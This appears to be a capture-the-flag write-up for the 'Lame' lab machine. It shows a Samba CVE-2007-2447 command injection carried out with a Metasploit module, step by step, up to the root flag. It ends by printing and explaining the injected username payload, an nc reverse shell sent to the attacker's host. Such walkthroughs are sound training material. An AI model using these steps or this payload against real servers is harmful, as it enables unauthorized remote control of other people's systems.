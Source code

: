# Lame

In this blog, we explore the process of identifying and exploiting vulnerabilities in Samba using the CVE-2007-2447 exploit. By leveraging Metasploit, we demonstrate how to gain unauthorized access to a server through the manipulation of shell metacharacters. This post provides a detailed, step-by-step guide on executing the exploit and capturing the root flag.

Perform an `nmap` scan using the `-sV` switch. We see we get a response with multiple services up and running on the target server.

<figure><img src="../../../.gitbook/assets/image (12) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If we do some basic research, we identify some vulnerabilities relating to the Samba version running on the server.

Samba is a suite of programs that implements the Server Message Block (SMB) protocol, which includes NetBIOS over TCP/IP (NBT). SMB is a network file sharing protocol that allows computers and servers to communicate with other systems using network ports. NetBIOS is an older transport layer that allows Windows computers to communicate with each other on the same network.

For the machine, we are going to utilize CVE-2007-2447, which as defined by CVE, "allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function when the 'username map script' smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management."

Luckily, we see Metasploit already has a script to exploit this vulnerability.

Type the following commands to properly execute the Metasploit payload:

`search cve-2007-2447`

<figure><img src="../../../.gitbook/assets/image (13) (1) (1) (1) (1).png" alt=""><figcaption><p>Find Metasploit script</p></figcaption></figure>

`use exploit/multi/samba/usermap_script`

<figure><img src="../../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption><p>Use script</p></figcaption></figure>

`set rhost "Enter applicable ip address"`

<figure><img src="../../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>Set your host IP properly</p></figcaption></figure>

`run`

<figure><img src="../../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption><p>Run script</p></figcaption></figure>

We now have successfully established a connection with the remote Samba server.

You will find the user flag in the /home/makis directory. Type `Shell` to spawn a new shell in your CMD and locate the root flag by typing `cd /root`.

<figure><img src="../../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

Here is the Metasploit script that actually performs the exploit.

<figure><img src="../../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

Example Execution Flow:

* **Username Injection:**
  * When Samba processes the `username field /=nohup mkfifo /tmp/hago; nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1; rm /tmp/hago``:`
* **Command Execution:**
  * The shell interprets the backticks and executes the command inside them.
  * `mkfifo /tmp/hago` is executed, creating a named pipe.
  * `nc lhost lport 0</tmp/hago | /bin/sh >/tmp/hago 2>&1` is executed, establishing a reverse shell connection to the attacker's machine.
  * `rm /tmp/hago` is executed, cleaning up the named pipe.
  * The backticks `` ` ` `` around `nohup " + payload + "` ensure that this string is treated as a command and executed by the shell.
  * `nohup` ensures that the command runs to completion without being interrupted by hangup signals.
  * By carefully crafting the payload and using shell metacharacters, the attacker can execute arbitrary commands on the vulnerable server, leading to a reverse shell and potentially complete control over the target system.
